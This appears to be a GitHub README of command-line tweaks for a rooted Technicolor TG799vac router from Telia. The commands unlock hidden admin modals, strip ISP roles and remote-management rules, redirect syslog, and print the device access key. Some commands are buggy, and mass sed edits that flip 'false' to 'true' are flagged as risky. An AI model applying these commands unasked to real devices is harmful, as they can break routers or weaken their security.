

    sed -i 's/telia/admin/' /www/docroot/modals/gateway-modal.lp
    sed -i 's/telia/admin/' /www/docroot/modals/internet-modal.lp
    sed -i 's/telia/admin/' /www/docroot/modals/mmpbx-global-modal.lp

#### For users that miss vpn card in webgui, run below command (if this modal is missing then its under modals dir in this repo)



    cp /rom/www/docroot/modals/l2tp-ipsec-server-modal.lp /www/docroot/modals/

    cat >> /etc/config/web

    list rules 'l2tpipsecservermodal'
    config rule 'l2tpipsecservermodal'
    option target '/modals/l2tp-ipsec-server-modal.lp'
    list roles 'admin'
    list roles 'engineer'

#### Setup your dns provider from commandline:

    echo "

    config service 'myddns_ipv4'
    option interface 'wan'
    option ip_source 'network'
    option ip_network 'wan'
    option use_https '1'
    option cacert 'IGNORE'
    option force_interval '36500'
    option force_unit 'days'
    option enabled '1'
    option password 'password'
    option username 'domain.com'
    option service_name 'loopia.se'
    option lookup_host 'domain.com'
    option domain 'domain.com'" > /etc/config/ddns
    
#### Setup local hostnames:

    cat >> /etc/config/dhcp

    config host
    option name 'moms.ipad'
    option mac 'macaddr'
    option ip 'prefered.localip''

    config host
    option name 'dads.linux.laptop'
    option mac 'macaddr'
    option ip 'prefered.localip'

#### Give a device on your localnetwork a custom hostname:

##### Example 1 - Echo method

    echo " /etc/config/dhcp

    # WUSEMAN WAS HERE
    # EDITED: 2018-08-14

    config host
    option name 'moms-ipad'
    option mac 'macaddr'
    option ip 'preferedip'" >> /etc/config/dhcp

##### Example 2 - UCI method.

    uci set dhcp.@host[0]=host
    uci set dhcp.@host[0].name='moms-ipad'
    uci set dhcp.@host[0].mac='macaddr'
    uci set dhcp.@host[0].ip='preferedip'
    uci set dhcp.@host[1]=host
    uci set dhcp.@host[1].name='dadslaptop'
    uci set dhcp.@host[1].mac='macaddr'
    uci set dhcp.@host[1].ip='preferedip'

#### Setup domain names:

##### Example 1 - Echo method

    echo "
    config domain
    option name 'github'
    option ip '192.30.253.112'" >> /etc/config/dhcp

##### Example 2 - UCI method

    uci set dhcp.@domain[1]=domain
    uci set dhcp.@domain[1].name='github'
    uci set dhcp.@domain[1].ip='192.30.253.112'

#### Portforwarding

##### Example 1 - Echo method

    echo "
    # WUSEMAN WAS HERE
    # EDITED: 2018-08-14

    config userredirect 'userredirectXXDD'
    option dest_port '<PORTNUMBER>'
    option dest 'lan'
    option src 'wan'
    list proto '<tcp>/<udp>/<tcpudp>'
    option enabled '<1>/<0>'
    option name 'CUSTOMNAMEINWEBINTERFACE'
    option src_dport '<PORTNUMBER>'
    option family '<ipv4>/<ipv6>'
    option target 'DNAT'
    option dest_ip '<lanip>'" >> /etc/config/firewall

##### Example 2 - UCI method

    uci set firewall.userredirect4320=userredirect
    uci set firewall.userredirect4320.family='<ipv4/ipv6>'
    uci set firewall.userredirect4320.enabled='<1>'
    uci set firewall.userredirect4320.target='DNAT'
    uci set firewall.userredirect4320.src='<wan>'
    uci set firewall.userredirect4320.dest='<lan>'
    uci set firewall.userredirect4320.dest_port='<port>'
    uci set firewall.userredirect4320.name='nameyourforwarding'
    uci set firewall.userredirect4320.src_dport='<port>'
    uci set firewall.userredirect4320.dest_ip='<0.0.0.0>' # use 0.0.0.0 if you dont use static leases
    uci set firewall.userredirect4320.dest_mac='<macaddr>'
    uci set firewall.userredirect4320.proto='tcp' '<tcp/udp>'

#### Disable UPNP:

    uci set minitr064d.config=minitr064d
    uci set minitr064d.config.enable_upnp='0'
    uci set minitr064d.config.log_output='0'
    uci set minitr064d.config.internal_iface='lan'
    uci set minitr064d.config.port='0'
    uci set minitr064d.config.manufacturer_url=''
    uci set minitr064d.config.model_url=''
    uci set minitr064d.config.model_description='main router'
    uci set minitr064d.config.model_number='tg799vac xtream router'
    uci set minitr064d.config.friendly_name='tg799vac xtream router
    uci set minitr064d.config.manufacturer_name='tg799vac xtream router'
    uci set minitr064d.config.model_name='technicolor'

#### Environment settings:

    uci set env.var.aria2_webui='0'
    uci set env.var.luci_webui='0'
    uci set env.var.transmission_webui='0'
    uci set env.var.xupnp_app='0'
    uci set env.var.blacklist_app='0'
    uci set env.var.new_ver='only god knows'
    uci set env.rip.sfp='1'

##### List all URLs for your firmware that can be downloaded (wont work on telias firmware. Did you found the key? Please contact me then):

    strings /etc/cwmpd.db

    SQLite format 3
    tabletidkvtidkv
    CREATE TABLE tidkv (  type TEXT NOT NULL,  id TEXT NOT NULL,  key TEXT NOT NULL,  value TEXT,  PRIMARY KEY (type, id, key)))
    indexsqlite_autoindex_tidkv_1tidkv
    transferPassword5
    transfer Username
    Stransfer URLhttp://192.168.21.52:7547/ACS-server
    5transferaStartTime2018-08-19T15:20:13Z
    transfera FaultStringcomplete
    transfera FaultCode0M_
    M%5transfera CompleteTime2018-08-19T15:19:57Z
    'transfera TimeStamp244,9XXXXXX
    transfera DelaySeconds3
    transfera Password
    transfera Username
    runtimevarParameterKey#
    runtimevarConfigurationVersionD
    %_runtimevarBootStrappedhttps://acs.telia.com:7575/ACS-server/ACS-
     +/VersionsSoftwareVersion16.2.XXXXXX
    transfer FaultString
    transfer FaultCode
    transfer TimeSt6
    transfera UsernameU
    transfera URLT7
    transfera TimeStampX
    transfera SubStatec
    transfera Stateb7
    transfera StartTimed
    transfera PasswordV

#### List network devices:

    awk '{print $1}' /proc/net/dev

#### To get a fresh network configuration on your client system you can remove all IP addresses via:
 
      ip a flush dev <device>

#### Changing max sync speed on your modem:

    uci set xdsl.dsl0.maxaggrdatarate='200000' # 16000 default
    uci set xdsl.dsl0.maxdsdatarate='140000'   # 11000 default
    uci set xdsl.dsl0.maxusdatarate='60000'    # 40000 default

#### Enable or Disable dnsmasq:

    uci show dhcp.lan.ignore='1'

#### Enable or Disable network time server:

    uci set system.ntp.enable_server='1'

#### Check the current running dns with:

    cat /etc/resolv.conf

#### Edit nsplink to something else (where you get redirected when you click on the logo at top)

    uci set web.uidefault.nsplink='https://sendit.nu'

#### This will show all traffic on your router with netstat:

    netstat -tulnp

#### This will show all ip numbers connected to your router atm..

    netstat -lantp | grep ESTABLISHED |awk '{print $5}' | awk -F: '{print $1}' | sort -u

#### Capture traffic on all interfaces (add -i wl0 for include wifi):

    tcpdump -vvv -ttt -p -U
    tcpdump -i wl0 -vvv -ttt -p -U

#### Enable or Disable Content Sharing (Samba / DNLA)

    uci set samba.samba.enabled='1'
    uci set dlnad.config.enabled='1'

#### Take control over mwan:

    uci set mwan.remoteassist=rule
    uci set mwan.remoteassist.dest_ip='192.168.1.0/24'
    uci set mwan.remoteassist.policy=''

#### To view currently dhcp leases:

    cat /tmp/dhcp.leases
    1534969000 macaddr lanip machine macaddr

#### To view all ipv4 adresses from uci settings:

    uci show | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b"

#### Print CPU info with clash:

    clash showinfo cpu

     Processor     : ARMv7 Processor rev 1 (v7l)
     processor     : 0
     BogoMIPS    : 1990.65

     processor     : 1
     BogoMIPS    : 1990.65

     Features    : swp half thumb fastmult edsp tls
     CPU implementer : 0x41
     CPU architecture: 7
     CPU variant    : 0x4
     CPU part    : 0xc09
     CPU revision    : 1

     Hardware    : BCM963138
     Revision    : 0000
     Serial     : 0000000000000000

##### Enable or Disable GUI:

    uci set web.remote.active='1'

##### List ARP log:

    cat /tmp/arp.log
    IP address     HW type    Flags     HW address      Mask    Device
    lanip      0x1     0x2     X0:X0:X0:X0:X0:X0    *    br-lan
    mgmt_ip     0x1     0x2     X0:X0:X0:X0:X0:X0    *    vlan_mgmt
    wanip      0x1     0x2     X0:X0:X0:X0:X0:X0    *    eth4

##### List all interfaces mac-addr:

    ifconfig -a  | sed '/eth\|wl/!d;s/ Link.*HWaddr//'
    eth0    X0:X0:X0:X0:X0:X0
    eth1    X0:X0:X0:X0:X0:X0
    eth2    X0:X0:X0:X0:X0:X0
    eth3    X0:X0:X0:X0:X0:X0
    eth4    X0:X0:X0:X0:X0:X0
    eth5    X0:X0:X0:X0:X0:X0
    vlan_eth0 X0:X0:X0:X0:X0:X0
    vlan_eth1 X0:X0:X0:X0:X0:X0
    vlan_eth2 X0:X0:X0:X0:X0:X0
    vlan_eth3 X0:X0:X0:X0:X0:X0
    vlan_eth5 X0:X0:X0:X0:X0:X0
    wl0     X0:X0:X0:X0:X0:X0
    wl0_1    X0:X0:X0:X0:X0:X0
    wl0_2    X0:X0:X0:X0:X0:X0

#### Various settings:

    uci set dlnad.config.friendly_name='tg799vac xtream router'
    uci set dlnad.config.model_name='tg799vac xtream router'
    uci set dlnad.config.manufacturer_url=''
    uci set dlnad.config.model_url=''
    uci set env.var.company_name='technicolor'
    uci set env.var.prod_friendly_name='tg799vac xtream router'
    uci set env.var.variant_friendly_name='tg799tvac xtream router'
    uci set env.var.prod_name='media'
    uci set env.var.prod_description='main router'
    uci set env.var.prod_number='tg799vac xtream router'
    uci set env.var.isp='telia'
    uci set mmdetectslic.non_voice_var.company_name='technicolor'

##### Remove trafficmon settings:

    uci delete system.@trafficmon[0].interface=''
    uci delete system.@trafficmon[0].minute=''
    uci delete system.@trafficmon[1].interface=''
    uci delete system.@trafficmon[1].minute=''
    uci delete system.@trafficmon[2].interface=''
    uci delete system.@trafficmon[2].minute=''
    uci delete system.@trafficmon[3]=trafficmon
    uci delete system.@trafficmon[3].interface=''
    uci delete system.@trafficmon[3].minute=''
    uci delete web.trafficmonitor=rule
    uci delete web.ruleset_main.rules='gateway'
    uci delete web.trafficmonitor.target='/modals/traffic-monitor.lp'
    uci delete web.trafficmonitor.roles='admin'

##### Send syslog to your own server instead of sending * to Telia (it's insane that they want all stuff they filtering as default)

    uci set ledfw.syslog=syslog
    uci set ledfw.syslog.trace='6'
    uci set mmpbx.syslog=syslog
    uci set mmpbx.syslog.service_config='1'
    uci set mmpbx.syslog.service_actions='1'
    uci set mmpbx.syslog.calls='1'
    uci set mmpbx.syslog.syslog_priority='6'
    uci set mmpbx.syslog.hide_user_identity='0'
    uci set mmpbxbrcmdectdev.syslog=syslog
    uci set mmpbxbrcmdectdev.syslog.phone='1'
    uci set mmpbxbrcmdectdev.syslog.syslog_priority='6'
    uci set mmpbxbrcmdectdev.syslog.syslog_hide_dialled_digits='1'
    uci set mmpbxbrcmfxsdev.syslog=syslog
    uci set mmpbxbrcmfxsdev.syslog.phone='1'
    uci set mmpbxbrcmfxsdev.syslog.syslog_priority='6'
    uci set mmpbxbrcmfxsdev.syslog.syslog_hide_dialled_digits='1'
    uci set mmpbxrvsipnet.syslog=syslog
    uci set mmpbxrvsipnet.syslog.registration='1'
    uci set mmpbxrvsipnet.syslog.call_signalling='1'
    uci set mmpbxrvsipnet.syslog.syslog_priority='6'
    uci set mmpbxrvsipnet.syslog.log_sip_message='1'
    uci set mmpbxrvsipnet.syslog.hide_user_identity='0'
    uci set osgi.config.enable_syslog='1'
    uci set siege.log.enable_syslog='1'
    uci del_list web_back.syslogmodal.roles='telia'

#### Grab all filters from log.txt when you export this from diagnostic tab and then insert the lines in /etc/config/system to log everything on your syslog server:

    cat log.txt  | awk '{print $7}' | sed 's/://g' | uniq -d | sort -r | uniq | sed 's/^/        list log_filter "/g' | sed 's/$/"/g'|sed "s/\"/'/g"

##### Something like this should be a good setup to log everything:

    config system
        option zonename 'Europe/Stockholm'
        option timezone 'CET-1CEST,M3.5.0,M10.5.0/3'
        option network_timezone '0'       
        option cronloglevel '5'                     
        option hostname 'router'                    
        option wizard_accessed '1' 
        option hw_reboot_count '1'
        option log_port '514'     
        option log_filter_ip '192.168.1.144'
        option sw_reboot_count '0'   
        list log_filter 'warmboot'   
        list log_filter 'cwmpd'   
        list log_filter 'Critical'          
        list log_filter 'Zonewatcher'       
        list log_filter 'wifiinfo'  
        list log_filter 'mmpbxd'  
        list log_filter 'Everything'
        list log_filter 'transformer'
        list log_filter 'Zonewatcher'  
        list log_filter 'zoneredird'   
        list log_filter 'zone_daemon'  
        list log_filter 'transformer[5113]'
        list log_filter 'syslog'
        list log_filter 'root'
        list log_filter 'premiumd' 
        list log_filter 'odhcpd[4785]'    
        list log_filter 'nginx'                     
        list log_filter 'mmpbxd[9050]'
        list log_filter 'kernel'  
        list log_filter 'ipks'            
        list log_filter 'hostmanager'               
        list log_filter 'hostapd'         
        list log_filter 'fseventd'                  
        list log_filter 'dropbear[8175]'               
        list log_filter 'dropbear[10079]'              
        list log_filter 'dnsmasq-dhcp[4208]'
        list log_filter 'ddns-scripts[7103]'
        list log_filter 'cwmpd[8230]'     
        list log_filter 'cwmpd'                     
        list log_filter 'assist.remote'             
        list log_filter '[8549]'

#### On your syslog server then put this in /etc/syslog/syslog.conf to recieve all messages from your tg799 xtream router.

#### Here is a screenshot from the listening server with the config below:

    @version: 3.17
    #
    # wusemans syslog-ng configuration file for Gentoo Linux

    # https://bugs.gentoo.org/426814
    @include "scl.conf"

    options {
        time-reap(30);
        mark-freq(10);
        keep-hostname(yes);
        };
    source s_local { system(); internal(); };
    source s_network {
        syslog(transport(udp) port(514));
        };
    destination d_local {
    file("/var/log/syslogs/syslog-messages_${HOST}"); };
    destination d_logs {
        file(
            "/var/log/syslogs/syslog-messages.ogs.txt"
            owner("root")
            group("root")
            perm(0777)
            ); };
    log { source(s_local); source(s_network); destination(d_logs); };

##### Now restart system on your router and you should see * messages:

     /etc/init.d/system restart

##### Enable or Disable Time of Day ACL rules:

    uci set tod.global.enabled='0'

##### For login with debug mode enabled, then please go to (Proably not possible but it is to try):

    http://192.168.1.1/?debug=1

##### Enable or Disable so your router wont restart if there is an segmentation fault in a user space program:

    uci set system.@coredump[0].reboot='0'
    uci commit system

#### Just type below command for print the accesskey:

    sed -e 's/^\(.\{8\}\).*/\1/' /proc/rip/0124

#### You can check the current running dns with

    cat /etc/resolv.conf

##### Enable or Disable Content Sharing (Samba / DNLA):

    uci set samba.samba.enabled='1'
    uci set dlnad.config.enabled='1'

##### To view currently dhcp leases:

    cat /tmp/dhcp.leases
    1534969000 macaddr lanip machine macaddr

#### Disable Time of Day ACL rules

    uci set tod.global.enabled='0'

#### List installed packages:

    echo $(opkg list_installed | awk '{ print $1 }')

#### List installed packages in a tree:

    echo $(opkg list_installed | awk '{ print $1 }') | xargs -n 1

#### IT IS VERY IMPORTANT TO ADD BELOW COMMANDS IN SAME ORDER I LISTED THEM.
##### IF YOU ADD THEM IN WRONG ORDER YOU GET A ERROR MESSAGE: 'uci: Invalid Argument'

#### Rules

    uci add_list web.uidefault.upgradefw_role='admin'
    uci set web.natalghelpermodal=rule
    uci set web.relaymodal=rule
    uci set web.systemmodal=rule
    uci set web.iproutesmodal=rule
    uci set web.mmpbxinoutgoingmapmodal=rule
    uci set web.ltedoctor=rule
    uci set web.ltemodal=rule
    uci set web.lteprofiles=rule
    uci set web.ltesim=rule
    uci set web.ltesms=rule
    uci set web.logconnections=rule
    uci set web.logviewer=rule
    uci set web.logviewer.roles=rule
    uci set tod.global.enabled='1'
    uci set mobiled.globals.enabled='1'
    uci set mobiled.device_defaults.enabled='1'
    uci commit; /etc/init.d/nginx restart

##### Ruleset

    uci add_list web.ruleset_main.rules=xdsllowmodal
    uci add_list web.ruleset_main.rules=systemmodal
    uci add_list web.ruleset_main.rules=natalghelpermodal
    uci add_list web.ruleset_main.rules=diagnostics
    uci add_list web.ruleset_main.rules=basicviewaccesscodemodal
    uci add_list web.ruleset_main.rules=basicviewwifiguestmodal
    uci add_list web.ruleset_main.rules=basicviewwifiguest5GHzmodal
    uci add_list web.ruleset_main.rules=basicviewwifipskmodal
    uci add_list web.ruleset_main.rules=basicviewwifipsk5GHzmodal
    uci add_list web.ruleset_main.rules=basicviewwifissidmodal
    uci add_list web.ruleset_main.rules=basicviewwifissid5GHzmodal
    uci add_list web.ruleset_main.rules=relaymodal
    uci add_list web.ruleset_main.rules=iproutesmodal
    uci add_list web.ruleset_main.rules=mmpbxinoutgoingmapmodal
    uci add_list web.ruleset_main.rules=mmpbxstatisticsmodal
    uci commit; /etc/init.d/nginx restart

##### Target ( You will get even more stuff in webinterface after you run below commands )

    uci set web.mmpbxinoutgoingmapmodal.target='/modals/mmpbx-inoutgoingmap-modal.lp'
    uci set web.iproutesmodal.target='/modals/iproutes-modal.lp'
    uci set web.systemmodal.target='/modals/system-modal.lp'
    uci  set web.relaymodal.target='/modals/relay-modal.lp'
    uci set web.natalghelpermodal.target='/modals/nat-alg-helper-modal.lp'
    uci set web.diagnosticstcpdumpmodal.target='/modals/diagnostics-tcpdump-modal.lp'
    uci set web.natalghelpermodal.target='/modals/basicview-accesscode-modal.lp'
    uci set web.natalghelpermodal.target='/modals/basicview-wifiguest-modal.lp'
    uci set web.natalghelpermodal.target='/modals/basicview-wifiguest5GHz-modal.lp'
    uci set web.natalghelpermodal.target='/modals/basicview-wifipsk-modal.lp'
    uci set web.natalghelpermodal.target='/modals/basicview-wifipsk5GHz-modal.lp'
    uci set web.natalghelpermodal.target='/modals/basicview-wifissid-modal.lp'
    uci set web.natalghelpermodal.target='/modals/basicview-wifissid5GHz-modal.lp'
    uci set web.ltemodal.target='/modals/lte-modal.lp'
    uci set web.ltedoctor.target='/modals/lte-doctor.lp'
    uci set web.lteprofiles.target='/modals/lte-profiles.lp'
    uci set web.logconnections.target='/modals/log-connections-modal.lp'
    uci set web.logviewer.target='/modals/logviewer-modal.lp'
    uci set web.ltesms.target='/modals/lte-sms.lp'
    uci set web.ltesim.target='/modals/lte-sim.lp'
    uci set web.xdsllowmodal.target='/modals/xdsl-low-modal.lp'
    uci commit; /etc/init.d/nginx restart

##### Roles ( You will see new stuff on webinterface after you run below commands)

    uci add_list web.assistancemodal.roles='admin'
    uci add_list web.usermgrmodal.roles='admin'
    uci add_list web.cwmpconf.roles='admin'
    uci add_list web.todmodal.roles='admin'
    uci add_list web.iproutesmodal.roles='admin'
    uci add_list web.natalghelper.roles='admin'
    uci add_list web.mmpbxglobalmodal.roles='admin'
    uci add_list web.mmpbxprofilemodal.roles='admin'
    uci add_list web.parentalblock.roles=admin
    uci add_list web.mmpbxinoutgoingmapmodal.roles='admin'
    uci add_list web.systemmodal.roles='admin'
    uci add_list web.relaymodal.roles='admin'
    uci add_list web.natalghelpermodal.roles='admin'
    uci add_list web.diagnosticstcpdumpmodal.roles='admin'
    uci add_list web.ltedoctor.roles="admin"
    uci add_list web.ltemodal.roles="admin"
    uci add_list web.lteprofiles.roles="admin"
    uci add_list web.xdsllowmodal.roles='admin'
    uci add_list web.ltesim.roles="admin"
    uci add_list web.logconnections.roles="admin"
    uci add_list web.logviewer.roles="admin"
    uci add_list web.logconnections.roles="admin"
    uci add_list web.home.roles='admin'
    uci add_list web.ltesms.roles='admin'
    uci add_list web.logviewer.roles="admin"
    commit; /etc/init.d/nginx restart

##### Delete all telia internal rules:

    uci delete mwan.teliainternal1
    uci delete mwan.teliainternal2
    uci delete telia.config
    uci delete telia.com_ts_boot
    uci delete telia.com_ts_core_util
    uci delete telia.com_ts_core_logging
    uci delete telia.com_ts_core_datamodel
    uci delete telia.com_ts_core_auth
    uci delete telia.com_ts_core_appinstall
    uci delete telia.com_ts_core_uci_listener
    uci delete telia.com_ts_core_coreapp
    uci delete telia.com_ts_core_reporter
    uci delete telia.com_ts_core_bootupgrader
    uci delete telia.com_ts_core_osgienvfix
    uci delete telia.telia_zone
    uci delete telia.telia_wifiinfo

##### Remove telia from all roles:

    uci delete web_back.uidefault.upgradefw_role='telia'
    uci delete web_back.usr_assist.role='telia'
    uci delete web_back.gateway.roles='telia'
    uci delete web_back.login.roles='telia'
    uci delete web_back.password.roles='telia'
    uci delete web_back.homepage.roles='telia'
    uci delete web_back.gatewaymodal.roles='telia'
    uci delete web_back.broadbandmodal.roles='telia'
    uci delete web_back.internetmodal.roles='telia'
    uci delete web_back.wirelessmodal.roles='telia'
    uci delete web_back.wirelessclientmodal.roles='telia'
    uci delete web_back.wirelessqrcodemodal.roles='telia'
    uci delete web_back.ethernetmodal.roles='telia'
    uci delete web_back.devicemodal.roles='telia'
    uci delete web_back.wanservices.roles='telia'
    uci delete web_back.firewallmodal.roles='telia'
    uci delete web_back.diagnosticsconnectionmodal.roles='telia'
    uci delete web_back.diagnosticsnetworkmodal.roles='telia'
    uci delete web_back.diagnosticspingmodal.roles='telia'
    uci delete web_back.diagnosticsxdslmodal.roles='telia'
    uci delete web_back.diagnosticsigmpproxymodal.roles='telia'
    uci delete web_back.assistancemodal.roles='telia'
    uci delete web_back.usermgrmodal.roles='telia'
    uci delete web_back.syslogmodal.roles='telia'
    uci delete web_back.dmzmodal.roles='telia'
    uci delete web_back.iproutesmodal.roles='telia'
    uci delete web_back.contentsharing.roles='telia'
    uci delete web_back.parentalmodal.roles='telia'
    uci delete web_back.iptv.roles='telia'
    uci delete web_back.home.roles='telia'
    uci delete web_back.accesscode.roles='telia'
    uci delete web_back.wifissid.roles='telia'
    uci delete web_back.wifipsk.roles='telia'
    uci delete web_back.wifiguest.roles='telia'
    uci delete web_back.wifissid5GHz.roles='telia'
    uci delete web_back.wifipsk5GHz.roles='telia'
    uci delete web_back.wifiguest5GHz.roles='telia'
    uci delete web_back.mmpbxglobalmodal.roles='telia'
    uci delete web_back.mmpbxprofilemodal.roles='telia'
    uci delete web_back.mmpbxinoutgoingmodal.roles='telia'
    uci delete web_back.mmpbxservicemodal.roles='telia'
    uci delete web_back.mmpbxdectmodal.roles='telia'

##### Remove all mobiled stuff (just copy and paste):

    echo -e "
    #!/bin/ash
    # Loop
    state=$(uci show | grep -e 'mobiled.\@mobiled' | cut -d= -f1); for i in $mstate; do uci delete $i; done
    for msettings in $(uci show|grep -Eo 'mobiled.@.*'|cut -d. -f1,2|cut -d= -f1 &> /dev/null); do uci delete $msettings;    done

    # 1by1
    uci delete mobiled.device_defaults &> /dev/null
    uci delete mobiled.platform &> /dev/null
    uci delete mobiled.globals &> /dev/null
    uci set network.wwan.proto=''
    uci delete web.lteajaxmobiletab &> /dev/null
    uci delete web_back.lteajaxmobiletab &> /dev/null
    uci del_list web.ruleset_main.rules='mobiled'
    uci delete web.lteajaxmobiletab.roles &> /dev/null
    uci set ledfw.status_led.mobile_itf=''
    uci delete web_back.ruleset_main.rules='ltesim'
    uci delete web_back.ruleset_main.rules='lteajaxsim'
    uci delete web_back.ruleset_main.rules='lteajaxmobiletab'
    uci delete web_back.ruleset_main.rules='lteradioparameters'
    uci delete web_back.ruleset_main.rules='lteprofiles'
    uci delete web_back.ruleset_main.rules='ltesms'
    uci delete web_back.ruleset_main.rules='ltedoctormodal'
    uci delete web_back.ruleset_main.rules='ltemodal'
    uci delete web.ruleset_main.rules='ltemodal'
    uci delete web.ruleset_main.rules='ltemodal'
    uci delete web.ruleset_main.rules='ltedoctormodal'
    uci delete web.ruleset_main.rules='ltesms'
    uci delete web.ruleset_main.rules='lteprofiles'
    uci delete web.ruleset_main.rules='lteradioparameters'
    uci delete web.ruleset_main.rules='lteajaxsms'
    uci delete web.ruleset_main.rules='lteajaxmobiletab'
    uci delete web.ruleset_main.rules='ltenetworkscan'
    uci delete web.ruleset_main.rules='lteajaxsim'
    uci delete web.ruleset_main.rules='ltesim'
    uci delete web.ruleset_main.rules='ltedoctorajax'
    uci delete web_back.ltemodal &> /dev/null
    uci delete web_back.ltedoctormodal &> /dev/null
    uci delete web_back.ltesms &> /dev/null
    uci delete web_back.lteprofiles &> /dev/null
    uci delete web_back.lteradioparameters &> /dev/null
    uci delete web_back.lteajaxsms &> /dev/null
    uci delete web_back.ltenetworkscan &> /dev/null
    uci delete web_back.lteajaxsim &> /dev/null
    uci delete web_back.ltesim &> /dev/null
    ici delete web.ltemodal &> /dev/null
    uci delete web.ltedoctormodal &> /dev/null
    uci delete web.ltesms &> /dev/null
    uci delete web.lteprofiles &> /dev/null
    uci delete web.lteradioparameters &> /dev/null
    uci delete web.lteajaxsms &> /dev/null
    uci delete web.ltenetworkscan &> /dev/null
    uci delete web.lteajaxsim &> /dev/null
    uci delete web.ltesim &> /dev/null
    uci delete web.ltemodal
    uci delete web.ltemod
    uci delete web.lteajaxsim.target &> /dev/null
    uci del_list web_back.ruleset_main.rules='ltedoctor'
    uci del_list web_back.ruleset_main.rules='ltedoctorajax'
    uci del_list web_back.ruleset_main.rules='ltenetworkscan'
    uci del_list web_back.ruleset_main.rules='lteajaxsms'
    uci del_list web_back.ruleset_main.rules='ltedoctor'
    rm /www/docroot/ajax/sms.lua
    rm /www/docroot/ajax/sim.lua
    rm /www/docroot/ajax/mobiletab.lua
    rm /www/docroot/ajax/lte-doctor.lua
    echo All mobile shit has been removed.. " > /tmp/remove.mobileshit
    sed -i 's/^    //g' /tmp/remove.mobileshit;chmod +x /tmp/remove.mobileshit; sh /tmp/remove.mobileshit; rm /tmp/remove.mobileshit

##### Wanna have some fun? Edit all false to true and vice versa ;p
###### DO THIS ON YOUR OWN RISK ( YOU HAVE BEEN WARNED )

    sed -i 's/false/true/g' /www/cards/*.lp
    sed -i 's/false/true/g' /www/lua/*.lua
    sed -i 's/false/true/g' /www/modals/*.lp
    sed -i 's/false/true/g' /www/snippets/*.lp
    sed -i 's/false/true/g' /www/docroot/*.lp
    sed -i 's/false/true/g' /www/docroot/
    sed -i 's/false/true/g' /www/docroot/ajax/*.lua

#### Add admin to everything and remove superuser & telia:
##### DO THIS ON YOUR OWN RISK ( YOU HAVE BEEN WARNED )

    sed -i 's/false/true/g' /www/cards/010_lte.lp
    sed -i 's/telia/admin/' /www/docroot/modals/gateway-modal.lp
    sed -i 's/telia/admin/' /www/docroot/modals/internet-modal.lp
    sed -i 's/telia/admin/' /www/docroot/modals/mmpbx-global-modal.lp
    sed -i 's/superuser/admin/' /www/docroot/modals/gateway-modal.lp
    sed -i 's/superuser/admin/' /www/docroot/modals/internet-modal.lp
    sed -i 's/superuser/admin/' /www/docroot/modals/mmpbx-global-modal.lp
    uci commit

#### Add a new new modal:

    uci set web.modalsmodalrule=rule
    uci set web.ruleset_main.rules=modalsmodalsrule
    uci add_list web.l2tpipsecservermodal.target='/modals/modals-name.lp'
    uci set web.l2tpipsecservermodal.roles='roles'

#### A minimal alias definition for a bridged interface might be:

    config interface lan
    option 'ifname' 'eth0'
    option 'type' 'bridge'
    option 'proto' 'static'
    option 'ipaddr' '192.168.1.1'
    option 'netmask' '255.255.255.0'

    config interface lan2
     option 'ifname' 'br-lan'
     option 'proto' 'static'
     option 'ipaddr' '10.0.0.1'
     option 'netmask' '255.255.255.0'

#### For for a non-bridge interface

    config interface lan
    option 'ifname' 'eth0'
    option 'proto' 'static'
    option 'ipaddr' '192.168.1.1'
    option 'netmask' '255.255.255.0'

    config interface lan2
     option 'ifname' 'eth0'
     option 'proto' 'static'
     option 'ipaddr' '10.0.0.1'
     option 'netmask' '255.255.255.0'

#### Use your tg799 router as a switch instead as router:

##### Here is my example for using all ports for local network and also wan port(5):

    echo "
    config 'switch' 'eth0'
        option 'enable' '1'

    config 'switch_vlan' 'eth0_0'
     option 'device' 'eth0'
     option 'vlan' '0'
     option 'ports' '4 5' #wan

    config 'switch_vlan' 'eth0_1'
     option 'device' 'eth0'
     option 'vlan' '1'
     option 'ports' '3 5' #lan 1

    config 'switch_vlan' 'eth0_2'
     option 'device' 'eth0'
     option 'vlan' '2'
     option 'ports' '2 5' #lan2

    config 'switch_vlan' 'eth0_3'
     option 'device' 'eth0'
     option 'vlan' '3'
     option 'ports' '1 5' #lan3

    config 'switch_vlan' 'eth0_4'
     option 'device' 'eth0'
     option 'vlan' '4'
     option 'ports' '0 5' #lan4 " > /etc/config/network

#### Using bridge mode with a dedicated PPPoE ethernet port:

    uci set network.lan.dns='1.1.1.1'
    uci set network.lan.gateway='192.168.0.254'
    uci set mmpbxrvsipnet.sip_net.interface='lan'
